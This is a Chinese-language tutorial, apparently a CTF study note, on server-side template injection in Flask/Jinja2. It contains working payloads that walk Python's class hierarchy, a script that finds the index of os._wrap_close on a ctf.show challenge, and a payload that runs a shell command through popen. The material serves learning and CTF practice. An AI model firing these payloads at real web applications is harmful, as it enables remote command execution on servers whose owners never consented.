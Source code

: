 # SSTI

<br>

## Flask模板注入

ssti服务端模板注入，ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。本文着重对flask模板注入进行浅析。

<br>

### 模板渲染

让我们用例子来简析模板渲染。

````
<html>
<div>{$what}</div>
</html>
````

我们想要呈现在每个用户面前自己的名字。但是{$what}我们不知道用户名字是什么，用一些url或者cookie包含的信息，渲染到what变量里，呈现给用户的为

````
<html>
<div>张三</div>
</html>
````

当然这只是最简单的示例，一般来说，至少会提供分支，迭代。还有一些内置函数。

<br>

### 重要函数

#### render_template函数

<img src="https://54huarui.github.io/blogs/falsk/p1.png" width="880" height="480">

#### regquest.arg.get('a')函数

通过get的方式获得请求

#### render_template_string函数

多用于ctf赛题里，用于渲染字符串，可以直接定义网页内容
<img src="https://54huarui.github.io/blogs/falsk/p3.png" width="880" height="480">

#### url_for()函数

用来构建url

#### redirect()函数

用来重定向网站


<br>


### 成因

例子：

````
<html>
  <head>
    <title>{{title}} - 小猪佩奇</title>
  </head>
 <body>
      <h1>Hello, {{user.name}}!</h1>
  </body>
</html>
````

里面有两个参数需要我们渲染，user.name，以及title

我们在app.py文件里进行渲染。


````
@app.route('/')
@app.route('/index')#我们访问/或者/index都会跳转
def index():
   return render_template("index.html",title='Home',user=request.args.get("key"))
````

<br>

## 解题思路

1.找到模板注入点

<br>

2.先查看所有的子类

````
{{"".__class__.__bases__[0].__subclasses__()}}
````

<br>

然后寻找可用子类并且获得它的序号
````
import requests
from bs4 import BeautifulSoup
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def crawl(url):
    try:
        # 发送请求
        response = requests.get(url, verify=False)

        # 检查请求是否成功
        if response.status_code == 200:
            # 返回网页的HTML内容
            return response.text
        else:
            print(f"请求失败，状态码: {response.status_code}")
            return None
    except requests.exceptions.RequestException as e:
        print(f"请求发生异常: {e}")
        return None


def truncate_at_string(text, target_string):
    # 找到目标字符串在文本中的位置
    pos = text.find(target_string)
    if pos == -1:
        return "目标字符串未找到"

    # 截取文本至目标字符串位置（不包括目标字符串本身）
    truncated_text = text[:pos]

    return truncated_text

def count_substring_occurrences(text, substring):
    # 使用 count 方法统计子字符串出现的次数
    count = text.count(substring)
    return count


#确定寻找的子类
target_string = "os._wrap_close"

url = b"https://d2da0681-9d65-4e0b-8a88-64c4a7cf0ab0.challenge.ctf.show/hello/%7B%7B%22%22.__class__.__bases__[0].__subclasses__()%7D%7D"
html_content = crawl(url)
te = truncate_at_string(html_content, target_string)

#开始数
stringwant = "&#39"
mem = count_substring_occurrences(te,stringwant)
print (f"你想要找到的子类{target_string}列表号是")
print((mem-1)/2)

#print(te)

#if html_content:
#    print(f"全部子类:\n{html_content}")


````

<br>


这里我获得的序号是132

<br>

3.命令执行

````
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('whoami').read()}}
````














